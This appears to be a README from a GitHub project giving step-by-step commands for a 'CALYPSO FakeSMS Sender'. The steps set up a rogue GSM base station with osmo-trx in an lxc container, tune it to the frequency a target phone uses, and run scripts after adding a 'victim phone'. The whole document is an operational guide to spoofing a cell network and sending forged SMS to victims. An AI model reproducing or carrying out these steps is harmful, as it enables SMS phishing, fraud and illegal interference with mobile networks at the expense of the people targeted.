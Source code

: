 ## Testing CALYPSO FakeSMS Sender
Copying config.json
```
lxc exec BulkSMS -- bash
```
```
cp osmo-nitb-scripts-calypsobts/config.json ../root
```
```
exit
```
Configuring trx calypso
```
lxc exec BulkSMS -- bash
```
```
cd osmo-nitb-scripts-calypsobts
```
Tape `*#*#4636#*#*` and choose GSM only on your Android phone  
Installing network signal guru on your android phone  
And finding the arfcn that this one is connect  
Let's name this arfcn as 975  
Configure arfcn at service/osmotrx.lms as 975
```
nano services/osmo-trx-lms3.service 
```
ctrl+x and tape yes
```
exit
```
```
lxc exec BulkSMS -- bash
```
```
cd osmo-nitb-scripts-calypsobts
```
```
bash install_services.sh 
```
For avoiding lock database error 
```
fuser -k /usr/src/CalypsoBTS/hlr.sqlite3
```
```
exit
```
```
lxc exec BulkSMS -- bash osmo-nitb-scripts-calypsobts/trx.sh
```
Tape ctrl+shift+T
```
lxc exec BulkSMS -- python3 osmo-nitb-scripts-calypsobts/main.py
```
Add victim phone and tape Tape ctrl+shift+T
```
lxc exec BulkSMS -- python3 osmo-nitb-scripts-calypsobts/interact.py
```
